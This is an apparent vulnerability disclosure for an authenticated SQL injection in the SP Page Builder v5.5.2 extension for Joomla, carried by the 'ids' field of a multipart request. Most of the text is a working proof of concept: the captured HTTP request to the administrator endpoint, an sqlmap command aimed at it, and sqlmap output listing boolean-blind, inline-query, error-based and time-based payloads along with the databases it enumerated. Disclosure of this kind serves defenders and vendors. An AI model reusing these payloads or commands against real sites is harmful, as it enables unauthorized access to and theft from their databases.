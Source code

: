 # SQL injection in SP Page Builder v5.5.2 for Joomla

**CVE Link:** Pending

**SP Page Builder:** https://extensions.joomla.org/extension/sp-page-builder/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the SP Page Builder v5.5.2 via the 'ids' parameter in a multipart request in the Pages section for Joomla.

## POC
To exploit this vulnerability go to 'SP Page Builder >> Pages >> Page >> Select >> Bulk Actions >> Publish >> Apply' and save the publication request (req.txt).

![Alt text](sp_page_builder_pages.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_sppagebuilder&task=/editor.pages HTTP/1.1
Host: localhost:8080
Content-Length: 334
sec-ch-ua-platform: "Linux"
X-CSRF-Token: 0bb3070a79cefd045ffe263334b5502a
Accept-Language: en-GB,en;q=0.9
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuBxIMB1sdeoLrZ21
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/administrator/index.php?option=com_sppagebuilder&view=editor&tmpl=component
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 1dbcca15c61d69pcd85efbffb29e8e7e=6044bc4a172a990cd71d5f4ac32c4d6f; abe5d7947ca86d62155a0708f02f4q11=c2551dedd7cc06be535c90139c8b2283
Connection: keep-alive

------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="type"

published
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch --threads=10 -p 'ids'

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: MULTIPART ids ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT (CASE WHEN (8275=8275) THEN 1 ELSE (SELECT 5102 UNION SELECT 6393) END))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: inline query
    Title: Generic inline queries
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT CONCAT(CONCAT(0x7176786a71,(CASE WHEN (1068=1068) THEN 0x31 ELSE 0x30 END)),0x71707a7171))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND GTID_SUBSET(CONCAT(0x7176786a71,(SELECT (ELT(4442=4442,1))),0x71707a7171),4442)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND (SELECT 9458 FROM (SELECT(SLEEP(5)))lJsm)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
